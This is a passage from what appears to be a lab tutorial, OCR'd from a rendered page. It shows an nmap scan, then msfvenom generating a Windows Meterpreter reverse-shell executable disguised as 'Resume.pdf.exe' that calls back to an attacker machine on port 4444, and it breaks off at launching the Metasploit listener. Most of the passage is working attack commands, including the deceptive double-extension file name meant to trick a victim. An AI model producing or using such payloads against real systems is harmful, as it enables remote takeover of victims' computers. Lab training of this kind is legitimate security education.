Familiarize yourself with `nmap` options:

```bash
nmap -h
```

Example usage:

```bash
nmap -A 192.168.20.10 -Pn
```

---

### 💣 Step 3: Generate Malware with `msfvenom`

Explore available payloads:

```bash
msfvenom -l payloads
```

We'll use:

```
windows/x64/meterpreter_reverse_tcp
```

### Malware Generation Command:

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Kali IP> LPORT=4444 -f exe -o Resume.pdf.exe
```

**Example:**

```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.20.11 LPORT=4444 -f exe -o Resume.pdf.exe
```

- This creates a **reverse shell payload**.
    
- The output file `Resume.pdf.exe` will attempt to connect back to the attacker machine on port **4444** (default for Meterpreter).
    

Verify the file exists:

```bash
ls
file Resume.pdf.exe
```

---

### 🧲 Step 4: Setup a Listener with Metasploit

Launch Metasploit:

```bash
msfconsole
```
